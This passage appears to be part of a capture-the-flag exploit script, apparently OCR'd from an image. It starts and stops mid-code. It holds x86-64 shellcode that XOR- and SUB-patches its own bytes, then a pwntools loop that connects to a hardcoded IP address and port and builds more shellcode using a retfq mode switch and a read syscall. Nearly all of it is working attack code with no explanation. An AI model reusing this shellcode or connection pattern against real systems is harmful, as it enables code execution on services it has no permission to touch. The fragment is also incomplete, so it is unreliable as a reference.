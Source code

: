 ```python
xor al,0x40


push 0x72

pop rcx

xor byte ptr[rax+0x40],cl

push 0x68

pop rcx

xor byte ptr[rax+0x40],cl

push 0x47

pop rcx

sub byte ptr[rax+0x41],cl

push 0x48

pop rcx

sub byte ptr[rax+0x41],cl

push rdi

push rdi

push 0x23

push 0x40404040

pop rax

push rax
'''

flag = ''

for i in range(0,40):
	p = remote("39.105.137.118",50050)	
	shellcode_flag = '''
	push 0x33
	
	push 0x40404060
	
	retfq
	
	
	/*read(fp,buf,0x70)*/
	
	mov rdi,rcx
	
	mov rsi,rsp
	
	mov rdx,0x70
	
	xor rax,rax
	
	syscall
```